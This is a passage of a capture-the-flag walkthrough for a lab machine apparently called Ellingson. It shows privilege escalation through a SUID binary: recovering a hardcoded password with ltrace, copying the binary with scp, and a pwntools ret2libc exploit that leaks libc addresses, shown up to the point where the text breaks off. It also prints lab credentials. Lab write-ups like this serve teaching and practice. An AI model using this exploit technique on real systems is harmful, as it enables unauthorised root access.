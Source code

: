 ![image.png](/images/ellingson/image17.png)

### PRIVILEGE ESCALATION

Using margo’s shell, let’s find the way to get into the root shell.

First let’s look at the suid files.

![image.png](/images/ellingson/image18.png)

 Among all the files, the file binary /usr/bin/garbage isn’t a standard binary. Let’s see what it does.

![image.png](/images/ellingson/image19.png)

It asks for the access password. But the password for margo isn’t working.

Let’s use ltrace to track the library calls.

![image.png](/images/ellingson/image20.png)

The password that I entered is compared with “N3veRF3@r1iSh3r3!”.

Let’s use this as our password.

![image.png](/images/ellingson/image21.png)

It gives four options that don’t seem to be of much use and don’t take any input.

Let’s transfer it over using scp to analyze the binary.

```bash
scp hal@10.10.10.139:/usr/bin/garbage .
```

Now I am going to write a Python code to exploit the login.

```python
#!/usr/bin/python
from pwn import *

s = ssh(host = "10.10.10.139", user = "margo", password = "iamgod$08")
context(os = "linux", arch = "amd64")
p = s.process("/usr/bin/garbage")
buf_size = 136
puts_plt = 0x401050
puts_got = 0x404028
pop_rdi = 0x40179b
main_addr = 0x401619

buf = b'A' * buf_size
buf += p64(pop_rdi)
buf += p64(puts_got)
buf += p64(puts_plt)
buf += p64(main_addr)

p.sendline(buf)
p.recvuntil("access denied.")
leaked_puts = p.recv()[:8].strip().ljust(8, b'\x00')
log.info("Leaked address: {}".format(leaked_puts.hex()))

puts_glibc = 0x809c0
offset = u64(leaked_puts) - puts_glibc
system_glibc = 0x4f440
setuid_glibc = 0xe5970
sh = 0x1b3e9a

system = p64(offset + system_glibc)
```